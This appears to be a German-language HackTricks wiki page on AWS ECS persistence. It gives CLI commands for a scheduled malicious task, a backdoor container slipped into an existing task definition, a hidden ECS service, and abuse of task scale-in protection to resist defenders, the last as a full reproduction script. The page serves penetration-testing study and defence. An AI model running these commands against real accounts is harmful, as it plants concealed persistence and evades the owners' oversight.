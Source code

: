 # AWS - ECS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Versteckte periodische ECS-Task

> [!NOTE]
> TODO: Testen

Ein Angreifer kann mit Amazon EventBridge eine versteckte periodische ECS-Task erstellen, um **periodisch die Ausführung einer bösartigen Task zu planen**. Diese Task kann reconnaissance durchführen, exfiltrate data oder persistence im AWS-Account aufrechterhalten.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container in Existing ECS Task Definition

> [!NOTE]
> TODO: Testen

Ein Angreifer kann einen **stealthy backdoor container** in einer bestehenden ECS task definition hinzufügen, der neben legitimen containers läuft. Der backdoor container kann für persistence und zur Durchführung bösartiger Aktivitäten verwendet werden.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Undokumentierter ECS-Service

> [!NOTE]
> TODO: Testen

Ein Angreifer kann einen **undokumentierten ECS-Service** erstellen, der einen bösartigen Task ausführt. Wenn die gewünschte Anzahl an Tasks auf ein Minimum gesetzt und die Protokollierung deaktiviert wird, ist es für Administratoren schwieriger, den bösartigen Service zu bemerken.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
### ECS Persistence via Task Scale-In Protection (UpdateTaskProtection)

Missbrauche ecs:UpdateTaskProtection, um zu verhindern, dass service tasks durch scale‑in events und rolling deployments gestoppt werden. Durch das kontinuierliche Verlängern des Schutzes kann ein Angreifer eine lang laufende Task (für C2 oder Datensammlung) am Laufen halten, selbst wenn Verteidiger desiredCount reduzieren oder neue task revisions ausrollen.

Schritte zur Reproduktion in us-east-1:
```bash
# 1) Cluster (create if missing)
CLUSTER=$(aws ecs list-clusters --query 'clusterArns[0]' --output text 2>/dev/null)
[ -z "$CLUSTER" -o "$CLUSTER" = "None" ] && CLUSTER=$(aws ecs create-cluster --cluster-name ht-ecs-persist --query 'cluster.clusterArn' --output text)

# 2) Minimal backdoor task that just sleeps (Fargate/awsvpc)
cat > /tmp/ht-persist-td.json << 'JSON'
{
"family": "ht-persist",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"containerDefinitions": [
{"name": "idle","image": "public.ecr.aws/amazonlinux/amazonlinux:latest",
"command": ["/bin/sh","-c","sleep 864000"]}
]
}
JSON
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null

# 3) Create service (use default VPC public subnet + default SG)
VPC=$(aws ec2 describe-vpcs --filters Name=isDefault,Values=true --query 'Vpcs[0].VpcId' --output text)
SUBNET=$(aws ec2 describe-subnets --filters Name=vpc-id,Values=$VPC Name=map-public-ip-on-launch,Values=true --query 'Subnets[0].SubnetId' --output text)
SG=$(aws ec2 describe-security-groups --filters Name=vpc-id,Values=$VPC Name=group-name,Values=default --query 'SecurityGroups[0].GroupId' --output text)
aws ecs create-service --cluster "$CLUSTER" --service-name ht-persist-svc \
--task-definition ht-persist --desired-count 1 --launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[$SUBNET],securityGroups=[$SG],assignPublicIp=ENABLED}"

# 4) Get running task ARN
TASK=$(aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING --query 'taskArns[0]' --output text)

# 5) Enable scale-in protection for 24h and verify
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --protection-enabled --expires-in-minutes 1440
aws ecs get-task-protection --cluster "$CLUSTER" --tasks "$TASK"

# 6) Try to scale service to 0 (task should persist)
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0
aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING

# Optional: rolling deployment blocked by protection
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --task-definition ht-persist --force-new-deployment
aws ecs describe-services --cluster "$CLUSTER" --services ht-persist-svc --query 'services[0].events[0]'

# 7) Cleanup
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --no-protection-enabled || true
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0 || true
aws ecs delete-service --cluster "$CLUSTER" --service ht-persist-svc --force || true
aws ecs deregister-task-definition --task-definition ht-persist || true
```
Auswirkung: Eine geschützte Task bleibt RUNNING trotz desiredCount=0 und blockiert Ersatz während neuer Deployments, wodurch eine heimliche, langanhaltende Persistenz innerhalb des ECS-Service ermöglicht wird.


{{#include ../../../../banners/hacktricks-training.md}}
